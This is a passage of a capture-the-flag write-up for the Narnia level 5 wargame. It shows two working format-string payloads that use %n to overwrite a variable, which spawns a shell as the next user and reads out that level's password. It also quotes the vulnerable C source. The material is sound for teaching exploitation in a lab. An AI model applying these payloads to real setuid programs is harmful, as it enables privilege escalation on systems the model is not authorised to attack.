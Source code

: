 Observe that the value for the variable is 4 which matches the amount of bytes in the buffer. Therefore, the amount of bytes inside the buffer corresponds to the overwriting value for the variable.

#### Controlling Variable Value

After verifying the ability for overwriting the local variable, we are left with the task of controlling its value. This can be done by padding the buffer using two different methods\:

##### Method 1

We can use a specifier for the position of the input within the stack.

{% highlight bash %}
narnia5@narnia\:/narnia$ ./narnia5 $(python -c 'print "\\xe0\\xd5\\xff\\xff"+"%496x%1$n"')  
Change i's value from 1 -> 500. GOOD  
$ whoami  
narnia6
{% endhighlight %}

In the method above, the %1 specifies that the input is in position 1 within the stack. This method, however, is unstable in comparison to the second method. The payload used does not work when using single quotes around the input, rather only double quotes work.

##### Method 2

This method copies the address for the i variable twice before padding it with the necessary amount of bytes. Inputting the address twice was found to be necessary (after a lot of trial and error).

{% highlight bash %}
narnia5@narnia\:/narnia$ /narnia/narnia5 $(python -c 'print "\\xd0\\xd5\\xff\\xff\\xd0\\xd5\\xff\\xff%492x%n"')                                                                        
Change i's value from 1 -> 500. GOOD  
$ cat /etc/narnia_pass/narnia6

neezocaeng
{% endhighlight %}

### Source Code

{% highlight c %}
#include <stdio.h>  
#include <stdlib.h>  
#include <string.h>  
  
int main(int argc, char **argv){       int i = 1\;       char buffer[64]\;       snprintf(buffer, sizeof buffer, argv[1])\;  
       buffer[sizeof (buffer) - 1] = 0\;       printf("Change i's value from 1 -> 500. ")\;       if(i==500){               printf("GOOD\\n")\;  
       setreuid(geteuid(),geteuid())\;  
               system("/bin/sh")\;  
       }       printf("No way...let me give you a hint!\\n")\;       printf("buffer \: [%s] (%d)\\n", buffer, strlen(buffer))\;       printf ("i = %d (%p)\\n", i, &i)\;       return 0\;  
}
{% endhighlight %}

Narnia 6
--------
